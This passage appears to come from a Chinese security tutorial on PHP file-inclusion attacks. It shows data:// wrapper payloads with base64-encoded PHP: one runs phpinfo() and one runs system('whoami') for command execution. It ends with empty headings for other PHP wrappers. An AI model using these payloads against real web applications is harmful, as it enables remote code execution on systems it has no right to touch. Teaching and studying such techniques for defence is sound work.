 

姿势二：

```
index.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```



加号`+`的url编码为`%2b`，`PD9waHAgcGhwaW5mbygpOz8+`的base64解码为：`<?php phpinfo();?>`
[![img](assets/7.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/7.png?raw=true)

执行命令：

```
index.php?file=data:text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==
```



其中`PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg==`的base64解码为：`<?php system('whoami');?>`



### 伪协议利用：expect://cmd









### php://memory 



### php://temp



### php://fd

